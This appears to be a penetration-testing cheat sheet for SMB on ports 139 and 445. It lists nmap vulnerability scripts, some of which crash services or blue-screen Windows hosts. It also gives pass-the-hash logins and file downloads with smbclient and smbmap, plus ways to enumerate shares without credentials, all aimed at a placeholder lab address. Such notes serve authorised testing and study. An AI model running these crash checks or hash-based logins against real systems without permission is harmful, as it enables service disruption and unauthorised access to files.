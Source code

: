 ```yaml
---
layout: default
title: SMB
tags:
    - 139
    - 445
    - block
    - message
    - samba
    - server
    - smbclient
    - smbd
    - smbmap
---
```

# SMB
### Nmap scripts
Safe vulnerability scan
```shell
nmap -p 445 -vv --script smb-vuln-ms06-025,smb-vuln-ms07-029,smb-vuln-ms08-067,smb-vuln-ms10-061,smb-vuln-ms17-010,smb-vuln-cve-2017-7494 10.10.10.10
```

Windows 2000 regsvc null pointer crash (_**service crashes if successful**_)
```shell
nmap -p 445 -vv --script smb-vuln-regsvc-dos 10.10.10.10
```

CVE-2009-3103 DOS check (Windows Vista and some of 7 - _**BSOD if successful**_)
```shell
nmap -p 445 -vv --script smb-vuln-cve2009-3103 10.10.10.10
```

CVE-2010-2550 memory corruption check (_**BSOD if successful**_)
```shell
nmap -p 445 -vv --script smb-vuln-ms10-054 10.10.10.10
```

### Pass-the-hash
List directories
```shell
smbclient -U <user>%<hash> --pw-nt-hash -L 10.10.10.10
```
```shell
smbmap -u <user> -p '<NTLM hash>:<LM hash>' -H 10.10.10.10
```
- _LM hash is legacy and can usually be anything_
- `--download <path>`: download file
- `-R`: recursively list files

Open specific directory

```shell
smbclient -U <user>%<hash> --pw-nt-hash //10.10.10.10/<directory>
```

### Regular usage
Mount
```shell
mount -t cifs -o username=[USERNAME] //10.10.10.10/ /mnt/smb/
```

SMBMap
```shell
smbmap -u [USERNAME] -H 10.10.10.10
```
- Add anything to `username` field if you have no creds